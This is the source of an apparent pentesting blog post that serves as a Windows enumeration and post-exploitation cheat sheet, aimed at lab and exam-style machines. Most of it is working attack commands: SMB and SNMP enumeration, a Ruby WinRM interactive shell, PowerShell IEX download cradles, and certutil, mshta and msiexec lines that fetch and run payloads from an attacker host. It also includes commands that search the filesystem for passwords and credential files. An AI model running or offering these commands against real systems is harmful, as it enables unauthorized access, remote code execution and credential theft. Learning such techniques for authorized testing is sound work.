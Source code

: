 ```yaml
---
layout: post
title: "Windows enumeration: Tricks and tools compendium"
categories: [ENUMERATION,WINDOWS,PRIVESC]
---
```


Well, we spend time enumerating a Windows machine externally, and we might have an exploit, or any vulnerability that can lead us to RCE but... If you are like me, usually used to hack Linux boxes, you'll have a hard time playing on a Windows machine. That's what is this post about, learing about getting a reverse shell on windows and some things we can use on it.

## Basic telnet and ftp 

```bash
# Maybe we see telnet open?
telnet x.x.x.x #If we got creds

#Ftp open?
ftp <ip> #If anonymous login is enabled we can use anonymous as user and pass

# FTP commands
ftp get # Download a file
ftp put # Upload a file

wget -m ftp://anonymous:anonymous@<ip> # If we can login, we can download all the FTP

```

Okay... we got no telnet or ftp, just the usual windows shares port (445/tcp), how do we enumerate that?

## SMB Enumeration

```bash
#Enumerate permissions
smbmap -H <ip> 
smbmap -H <ip> -d Domain -u user -p password

#Actually connect to the share
smbclient -L <ip>
smbclient //<ip>/share

#Enum4linux can help to extract some info
enum4linux -a <ip>

#Impacket Lookupsid (Enumerate users)
lookupsid.py user:password@<IP>
use auxiliary/scanner/smb/smb_lookupsid # also in metasploit
```

Well, more enumeration...

## SNMP

```bash
#SNMP checks
snmpenum -t <ip>
snmpenum -t <ip> -c public -v2c #If we know community and version

#Snmp v3
nmap -sV -p 161 --script=snmp-info TARGET-SUBNET
```

If we got a WinRM open (Usually port 5985), we can try the MSF module related, or if we want to do it manually, there is a
good article on building a Ruby shell [here](https://alionder.net/winrm-shell/)

Let's do it one as a example:

```rb
#shell.rb

require 'winrm'

conn = WinRM::Connection.new(
  endpoint: '<ip>',
  user: '<user>',
  password: '<password>',
)

command=""

# We can use cmd or powershell as a shell
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```


Maybe if we get RCE with some of beforementioned ways, it'll be a "stub" shell, maybe with no keys support so, here is a bit of powershell tricks:

## Powershell
```powershell

# Download file one liners
(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 
Invoke-WebRequest "https://example.com/archive.zip" -OutFile "C:\Windows\Temp\archive.zip"  # Newer versions (4,5)

# Download and run a script
IEX(New-Object Net.WebClient).downloadString('http://<ip>/script.ps1')

# Encoding a command to use in Windows
echo -n "<COMMAND>" | iconv --to-code UTF-16LE | base64 -w 0
powershell -EncodedCommand <base64_cmd>

```

## Another ways to download or execute files remotely
```powershell
# Certutil
certutil.exe -urlcache -split -f "http://<ip>/object" C:\\tmp\\program.exe && C:\\tmp\\program.exe

# Malicious hta file
mshta.exe http://<ip>/test.hta
use exploit/windows/misc/hta_server #Metasploit

# Malicious msi package
msiexec /q /i http://<ip>/test.msi
```

Now... we got a low priv shell, what can we do?

```powershell
#Check systeminfo
systeminfo
hostname
echo %PATH%

# Network
ipconfig
ipconfig /all

# Patches installed
wmic qfe

# Search filesystem
dir /s *pass* == *username* == *cred*
findstr /si private *.php *.xml *.txt #Search private files

...
```

We can also check some scripts to do this work for us, enumerating Critical vulnerabilites like unquoted service paths and more.
I grouped some of this scripts at the bottom of this page, in the section Links/Scripts.
Usually I like to run two of them, JAWS for general enumeration, and Watson for exploit related one.

Before finishing the post, there is a set of tools by Mark Russinovich from Microsoft. The Sysinternals pack.
I've used this tools a lot of times, for example PsExec to executing commands on another user, or ProcDump to dumping process memory to examine it.
They can be dowloaded individually [there](https://live.sysinternals.com/). And also as a pack on [https://docs.microsoft.com/en-us/sysinternals/downloads/](https://docs.microsoft.com/en-us/sysinternals/downloads/).


## Links / Scripts

[JAWS - Windows](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1)

[Watson](https://github.com/rasta-mouse/Watson)

[WindowsPrivescCheck - PentestMonkey](https://github.com/pentestmonkey/windows-privesc-check)

[Nishang - Offensive Powershell](https://github.com/samratashok/nishang)

[Powershell - Scripts](https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70)

## Resources / Guides

[Windows Escalation](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html)
